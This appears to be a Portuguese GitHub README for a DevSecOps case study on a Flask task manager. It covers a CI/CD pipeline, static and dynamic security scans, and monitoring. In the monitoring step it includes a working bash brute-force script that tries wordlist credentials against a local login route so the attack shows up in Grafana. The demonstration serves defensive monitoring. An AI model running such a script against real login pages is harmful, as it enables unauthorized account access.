 ## INTRODUÇÃO

Este estudo de caso se refere a implementação e segurança de um sistema de gerenciamento de tarefas pessoais, integrando processos de SDLC, DevOps e DevSecOps para garantir eficiência e segurança.
<hr>


### ETAPA 1: PLANEJAMENTO E DEFINIÇÃO DE REQUISITOS

1. Clonar o projeto e instalar das dependências a partir do requiriments.txt:

```
Flask==2.3.2
Flask-Bcrypt==1.0.1
Flask-Login==0.6.3
Flask-SQLAlchemy==3.0.5
Flask-WTF==1.1.1
WTForms==3.1.1
Jinja2==3.1.2
werkzeug==2.3.3
coverage
python-dotenv
prometheus-flask-exporter
```
<br />
   
2. Construir o Diagrama para entender o dominio do problema:

![DFD](https://github.com/gustavogss/task-manager/blob/main/images/dfd.png)
<hr>

### ETAPA 2: DESENVOLVIMENTO DO SISTEMA

***Branchs***: 
- master: produção
- development: desenvolvimento
- staging: homologação


***Ferramentas Utilizadas***: 
- Visual Studio Code
- Gitlab
- Docker
- Python
- Pytest
- Unittest
- Zed Attack Proxy
- Bandit
- OWASP Dependency-Check
- OWASP ZAP
- Hydra 
- Prometheus
- Grafana
  
<br />

1. Implementação do Dockerfile

![dockerfile](https://github.com/gustavogss/task-manager/blob/main/images/dockerfile.png)

<br />


2. Aplicação executada na porta 5000:

![app](https://github.com/gustavogss/task-manager/blob/main/images/app.png)

<hr>


### ETAPA3: IMPLEMENTAÇÃO DE UM PIPELINE CI/CD

1. Implementação do build e deploy na pipeline

![gitlab](https://github.com/gustavogss/task-manager/blob/main/images/gitlabci.png)

<br />

2. Pipeline em execução no gitlab:

![pipeline-inital](https://github.com/gustavogss/task-manager/blob/main/images/pipeline-initial.png)

<hr>


### ETAPA 4: ANÁLISE ESTÁTICA DE CÓDIGO (SAST)

1. Implementação do Bandit na pipeline:

![bandit](https://github.com/gustavogss/task-manager/blob/main/images/bandit.png)

<br />

2. Artefato gerado mostrando dados sensíveis expostos na aplicação:

![artfect-bandit](https://github.com/gustavogss/task-manager/blob/main/images/bandit-artifect.png)

<br />

3. Correção no código da falha capturada pelo Bandit:

![fix-bandit](https://github.com/gustavogss/task-manager/blob/main/images/fixenv.png)

<br />
   
4. Implementação do OWASP Dependency Check na pipeline:

![owasp-dependency-check](https://github.com/gustavogss/task-manager/blob/main/images/owasp-dependecy-check.png)

<br />

5. Artefato gerado com vulnerabilidades no código javascript:

![artfect-dependency](https://github.com/gustavogss/task-manager/blob/main/images/artifect-dependency-check.png)
<hr>

### ETAPA 5: ANÁLISE DINÂMICA DE SEGURANÇA  (DAST)

1. Foi utilizada a aplicação Zed Attack Proxy (ZAP) para fazer uma varredura rápida na aplicação:

 ![zed](https://github.com/gustavogss/task-manager/blob/main/images/zap-attack-tools.png)
 
  <br />
  
2. Artefato gerado mostrando as vulnerabilidades e níveis de risco:

![artefact-zed](https://github.com/gustavogss/task-manager/blob/main/images/artefact-zap-attack-tools.png)
<hr>

### ETAPA 6: ENTREGA CONTÍNUA (CD)

1. Implementação da etapa revisão de código na pipeline:

![review](https://github.com/gustavogss/task-manager/blob/main/images/review-pipeline.png)

<br />
   
2. Implementação do OWASP ZAP para executar em toda pipeline na homologação: 

![owasp-zap](https://github.com/gustavogss/task-manager/blob/main/images/dast.png)

<hr>


### ETAPA 7: MONITORAMENTO

1. Implementação do Prometheus e Grafana na produção:

![prometehues-grafana](https://github.com/gustavogss/task-manager/blob/main/images/grafana-prometheus.png)

<br />
   
2. Implementação do ataque de bruta force em python:

```
#!/bin/bash

URL="http://localhost:5000/login"   
USERNAMES="usernames.txt"        
PASSWORDS="passwords.txt"       

if [[ ! -f "$USERNAMES" || ! -f "$PASSWORDS" ]]; then
  echo "Os arquivos usernames.txt ou passwords.txt não foram encontrados."
  exit 1
fi

while IFS= read -r username; do
  while IFS= read -r password; do
    echo "Tentando login com Username: $username e Password: $password"    
 
    response=$(curl -s -X POST -d "username=$username&password=$password" "$URL")    
   
    if [[ $response == *"Login successful"* ]]; then
      echo "SUCESSO! Username: $username | Password: $password"
      exit 0
    fi
  done < "$PASSWORDS"
done < "$USERNAMES"
```
<br />
   
3. Acompanhamento pelo Grafana com o ataque de bruta force em execução na rota de login:

![monitory](https://github.com/gustavogss/task-manager/blob/main/images/monitory.png)
<hr>

### ETAPA 8: FEEDBACKS

1. A aplicação é antiga e precisou que algumas bibliotecas fossem atualizadas;
   
2. Foi corrigida uma das vulnerabilidades críticas capturada pelo bandit;
   
3. Testes funcionais e de integração foram implementados na etapa de homologação 
   
4. A pipeline foi testada de ponta a ponta, do desenvolvimento a homologação e produção:

![pipeline-full](https://github.com/gustavogss/task-manager/blob/main/images/pipeline-finished.png)

<br />

